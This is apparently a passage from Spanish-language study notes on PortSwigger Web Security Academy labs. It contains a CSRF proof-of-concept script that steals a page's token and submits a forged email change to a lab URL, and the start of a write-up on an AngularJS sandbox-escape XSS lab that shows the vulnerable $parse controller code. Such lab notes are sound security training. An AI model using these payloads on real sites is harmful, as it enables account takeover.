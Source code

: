 ```html
<script>
window.onload = function() {
  var token = document.querySelector('input[name="csrf"]').value;
  
  var domain = "https://0ace00ae049f92cb8051bc93006f00a4.web-security-academy.net/my-account/change-email";
  
  var req = new XMLHttpRequest();
  var data = "email=test%40test.com&csrf=" + encodeURIComponent(token);
  req.open('POST', domain);
  req.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
  req.send(data);
};
</script>
```

## Escape de sandbox AngularJS sin cadenas || Reflected XSS with AngularJS sandbox escape without strings

![](/img2/Pasted%20image%2020250726170208.png)

![](/img2/Pasted%20image%2020250726170259.png)

```javascript
angular.module('labApp', []).controller('vulnCtrl',function($scope, $parse) {
$scope.query = {};
var key = 'search';
$scope.query[key] = 'testing123';
$scope.value = $parse(key)($scope.query);
});
```

> Vamos a desglosar el script:

> 1. Crea un módulo con el nombre 'labApp'. Un módulo en AngularJS es un contenedor para agrupar componentes como controladores, servicios, etc. Su objetivo es organizar el código.
> 2. Crea un controlador con el nombre 'vulnCtrl' con las dependencias $scope y $parse. Un controlador se usa para definir la lógica y el estado que usa la vista. 
> 3. $scope es el objeto compartido entre el controlador y la vista en el HTML. $parse es un servicio que convierte una cadena en una expresión Angular ejecutable.
> 4. Crea un objeto vacío llamado query dentro del $scope.
> 5. Se define la variable 'key' sacada del parámetro 'search'.
> 6. Crea el valor del objeto 'query', como resultado: {search : 'testing123'}
> 7. (PARTE VULNERABLE) Por útlimo, se utiliza la dependencia $parse sobre la clave del objeto 'query'.
